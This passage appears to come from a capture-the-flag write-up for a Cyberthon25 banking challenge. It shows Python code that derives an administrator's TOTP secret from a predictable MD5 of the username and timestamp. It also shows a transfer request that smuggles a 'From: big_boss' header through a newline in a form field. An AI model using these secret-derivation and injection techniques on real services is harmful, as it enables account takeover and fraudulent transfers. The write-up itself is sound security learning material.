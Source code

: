 ```python
  
asyncio.run(main())
```
And... nothing. I had initially thought perhaps the OTP was outdated and tried the script again. Then I realized as from the name, a **One time** Password is meant to be used only once. However, testing revealed that 0 transactions succeeded and a quick search (with the help of AI) showed that pyotp was only responsible for verifying an OTP, not making sure it had already been used.  Perhaps, we should go back to the transaction handling code and review it again.
```python
...
frm = req["From"]  
to = req["To"]  
amount = int(req["Amount"])  
otp = req["Code"]  
  
with lock:  
    with open("./secure.json") as f:  
        data = json.load(f)  
  
    if frm not in data or to not in data:  
        return b"Failed"  
    frm_data = data[frm]  
    to_data = data[to]  
  
    totp = pyotp.TOTP(frm_data["secret"])  
    if not totp.verify(otp, valid_window=1):  
        return b"Failed"
...
```
Oops. As it turns out, we need the boss's OTP token, not ours. How would we know what their token was though? Checking out `schema.sql`, we see this helpful line of code
```sql
INSERT INTO user (username, password, timestamp, activated) VALUES ("big_boss", "login_disabled", "2025-02-28 15:50:24", 1);
```
How helpful! All we need to do now is to generate the secret for the boss
```python
import time, hashlib, base64  
from datetime import datetime  
  
def md5(x):  
    return base64.b32encode(hashlib.md5(x).digest()).decode()  
datetime_str = "2025-02-28 15:50:24"  
# Parse the string into a datetime object  
dt = datetime.strptime(datetime_str, "%Y-%m-%d %H:%M:%S")  
# Convert to epoch time (Unix timestamp)  
epoch_time = int(time.mktime(dt.timetuple()))  
print(f"Epoch timestamp: {epoch_time}")  
username = "big_boss"  
secret = md5((username + str(int(epoch_time))).encode())  
print(secret) #42II463B7OQ42MMLN3TGIZE5QI======
```
Now, we supply the boss's secret to pyotp and have it generate their OTP.
```python
import httpx  
import pyotp  
import asyncio  
  
url = "http://127.0.0.1:33339"  
url = "http://chals.f.cyberthon25.ctf.sg:50111"  
  
async def transfer(client: httpx.AsyncClient, username, otp):  
    res = await client.post(f"{url}/transfer", data={"to": f"{username}\nFrom: big_boss", "amount": "10000", "otp": otp})  
```